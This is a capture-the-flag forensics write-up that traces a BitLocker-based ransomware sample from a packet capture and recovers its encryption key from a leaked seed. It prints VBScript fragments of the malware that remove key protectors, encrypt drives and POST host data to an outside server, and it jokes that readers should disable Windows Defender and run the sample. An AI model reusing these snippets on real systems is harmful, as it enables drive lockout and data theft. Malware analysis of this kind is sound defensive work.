


We are given a fairly small .pcap file that we open with Wireshark. Upon filtering for HTTP traffic, we find the first interesting request.


It seems that a zip file was sent to the target machine. We can extract the .zip file by "following the HTTP Stream" in Wireshark and copying the raw bytes. Now, of course, we could paste these bytes into a new file using a hex editor. However, I like to promote the use of unnecessary online tools. So, I paste them into  and download the file.

If they save the files being processed, that is what we call a "no-no" in privacy terms. Let’s hope they don’t try to open the file on a Windows machine.

The downloaded file is a zip file containing a file called gpedit.msc.

The first hint about what this file is comes when we copy it to a Windows machine and it gets deleted immediately. This file might be malware! Here’s a pro tip for people wanting an EPT-Token: Turn off your Windows Defender and run gpedit.msc. It will irrecoverably encrypt your entire system, BUT you will also get an EPT-Coin.

Upon analyzing gpedit.msc, we stumble upon this large block of URL-encoded characters:

By utilizing yet another online tool, [CyberChef](https://gchq.github.io/CyberChef/), we decode the characters and get another Visual Basic script!

This script is quite interesting indeed
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34) & Chr(39) & strRandom & Chr(39) & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then End If
```
This part of the scripts in essence enables bitlocker encryption on some drives. The key used for the encryption seems to be "strRandom".

strRandom is defined in the following code snippet:


```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```
Here we can see that a seed for Rnd() is generated using several characteristics of the target machine.
strRandom is then built using Rnd(). 

Since Rnd() is deterministic we could recover strRandom if we had the seed. 

As we can see in this snippet the seed is actually sent to http://192.168.77.136/updatelog

```vbscript
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```


And lo and behold we can find that request in our .pcap file.



Decoding the base64 string we get "DESKTOP-59C1C3D	43906.83" where 43906.83 is our seed.


By writing the strRandom function ourselves and initializing the Rnd() function with the seed "43906.83" 


```vbscript
Dim strRandom
Dim characters
Dim numericSeed
Dim i
Dim randomNum
Dim fso
Dim outputFile

' Set your numeric seed directly. For example:
' numericSeed = 43906.83  ' Replace this with your actual numeric seed value
numericSeed = "43906.83"
' Randomize with the numeric seed
Rnd(-1)
Randomize numericSeed

' Define characters to choose from
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
strRandom = ""

' Generate random characters
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))  ' Using Rnd to generate a random number
    strRandom = strRandom & Mid(characters, randomNum + 1, 1)  ' Build the random string
Next

' Show the result in a message box
MsgBox "The random string is: " & strRandom

' Create a FileSystemObject to write the string to a file
Set fso = CreateObject("Scripting.FileSystemObject")

' Create or overwrite the output file
Set outputFile = fso.CreateTextFile("randomString.txt", True)

' Write the random string to the file
outputFile.WriteLine strRandom
outputFile.WriteLine numericSeed

' Close the file
outputFile.Close

' Clean up
Set outputFile = Nothing
Set fso = Nothing


```


we are able to generate the following key:
"_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb"

If we decrypt the volume we can access it and get our flag: EPT{it_works_the_machine_works!}


